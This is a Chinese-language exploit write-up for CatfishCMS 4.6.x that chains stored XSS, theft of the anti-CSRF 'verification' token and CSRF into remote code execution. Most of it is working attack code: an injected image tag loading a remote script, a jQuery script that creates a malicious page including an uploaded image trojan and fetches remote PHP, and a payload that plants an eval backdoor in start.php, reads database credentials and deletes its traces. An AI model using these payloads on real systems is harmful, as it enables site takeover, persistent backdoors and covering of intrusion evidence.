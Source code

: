 ```yaml
---
title: "CatfishCMS 4.6.15 csrf getshell"
id: zhfly2841
---
```


# CatfishCMS 4.6.15 csrf getshell

## 一、漏洞简介

在测试的过程中发现更新版本的时候作者添加一个参数 verification 可能是用来防治csrf。嗯，不得不说，作者安全意识提高了，用来防治csrf这的却是一个好思路，但是对于我们可以执行xss来说，verification 就显的苍白无力了，因为我们可以先获取
verification 然后在执行csrf 从而来绕过。

## 二、漏洞影响

CatfishCMS 4.6

## 三、复现过程

### 漏洞分析

文件：CatfishCMS-4.6.12\catfish\library\think\Template.php

函数：fetch()

![image](../img/b84802e18d7f15e582775f2e9a384442.png)

![image](../img/1fa4c6d3f24d275c797e44322d3d43ba.png)

![image](../img/e007760c54ce2419e36de3dcd1be769d.png)

![image](../img/409109ec2a45082b4c4ce910383d9d9c.png)

![image](../img/c718b5870292e5b98008221a4068fef9.png)

![image](../img/8cfa924e0f98388cc366dc1cb3eb4648.png)

嗯，说完了。Fetch方法最后都会编译文件以后通过PHP输出，所以如果我们可以在他编译之前写入
恶意代码 那么就可以为所欲为。

### 复现

前台注册一个账户->注册一个图片马到网站中->评论处插入xss代码->等待无辜管理员登录网站->获取 verification(绕过检测)->管理员入口-页面管理-新建页面-csrf插入一条非法语句引起包含漏洞(用来包含前面的图片马)->包含漏洞执行代码->包含漏洞添加getshell_code.php文件写入恶意代码->包含漏洞-将框架文件start.php添加一句话木马-包含数据库配置文件-连接数据库->删除我们前面的评论->删除我们csrf创建的页面->邮件通知我们->getshell

CatfishCMS-4.6.12-xss.js

```
/*  
    需要插入的xss代码
    <img src="#" alt="xss_csrf_getshll" onerror="var url = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/CatfishCMS-4.6.12-xss.js';xss_js = '<scr'+'ipt src='+url+'><\/sc'+'ript>';$('body').append(xss_js);">
*/ 

//不用动的

var articles = ‘index.php/admin/Index/articles.html’;//用来获取 verification 绕过检测

var newpage = ‘index.php/admin/Index/newpage.html’;//生成文章地址

var allpage = ‘index.php/admin/Index/allpage.html’;//获取文章链接

//需要改的

var url = ‘[http://0-sec.org](http://0-sec.org)’;//你要日的站的域名

var directory = ‘/cms/CatfishCMS-4.6.12/’; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)

var img_trojan_url = ‘…/…/…/’+‘data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg’;//图片马的地址 修改 + 号后面的即可

var getshell_code = ‘[http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt](http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt)’;//恶意代码远程包含的地址

$(‘body’).append(’<div id=“csrf_verification” style=“display:none;”></div>’);

$(‘body’).append(’<div id=“csrf_allpage” style=“display:none;”></div>’);

$.ajax({

url: url+directory+articles,

dataType: “json”,

success: function(verification_content){

$(’#csrf_verification’).append(verification_content);

var verification = $(’#verification’).html();//用来绕过验证的

// alert(verification);

```
 //csrf生成文章,引起文件包含漏洞
    $.ajax({
        type: "POST",
        url: url+directory+newpage,
        data: {
            'biaoti':'xss_csrf_getshll',
            'template':img_trojan_url,
            'verification':verification,
            'fabushijian':'2017-12-05 11:56:48'
        },
        success: function(){
            //csrf获取shell链接
            $.ajax({
                type: "POST",
                url: url+directory+allpage,
                success: function(allpage_content){
                    $('#csrf_allpage').append(allpage_content);
                    var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
                    var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');

                    var shell_content = '';
                        shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
                        shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
                        shell_content+= 'fwrite($myfile, $txt);';
                        console.log(shell_content);

                    //执行shell 生成马子
                    $.ajax({
                        type: "POST",
                        url: url+shell_url,
                        dataType: "json",
                        data: {'ddd':shell_content},
                        success: function(data){
                            $.ajax({
                                type: "GET",
                                url: url+directory+'getshell_code.php',
                                dataType: "json", 
                                // data: {'zzz':1}
                            });
                        },
                        error: function(){
                            $.ajax({
                                type: "GET",
                                url: url+directory+'getshell_code.php',
                                dataType: "json", 
                                // data: {'zzz':1}
                            });
                        }   
                    });

                } 
            });

        } 
    });

} 
``` `});` 
```

![image](../img/5de857f36da83407a0c183ba3e7a2175.png)

![image](../img/f77a69124aa689b3952350e5c8c2a663.png)

写好以后模拟管理员，进入后台

![image](../img/003aa2ed36a046ca3033539a1388bd51.png)

![image](../img/66afafa829850c76837456dc18ebf186.png)

![image](../img/047b3f00e7c55599e6c33cca45fd82de.png)

![image](../img/4e4b09f17195196e4bc9e396546dd06c.png)

getshell_code

```
<?php  
    $start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
    $start = fopen('catfish/start.php', 'w');
    fwrite($start, $start_content);
    if( @$_GET[zzz]){
        $config = require_once("application/database.php");
        //分别对应的是 地址，端口号，连接的数据库，编码
        $dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
        $user = $config['username'];
        $psw = $config['password'];
        $pdo = new PDO($dsn,$user,$psw);
        $sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
        $sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
        $pdo->query($sql);
        $pdo->query($sql_1);
        unlink('getshell_code.php');
    }
?> 
```

![image](../img/bb81b5962a86c712b71b5c315bf21a06.png)

连接马子的操作，这个文件会在index.php中给引入所以直接

```
http://0-sec.org/index.php

POST `ddd = 你要执行的命令` 
```

![image](../img/0a627569e8100e2a49f481cc620cb2a3.png)

![image](../img/01c49cc887a32639f5b8e4faf94bf3c4.png)
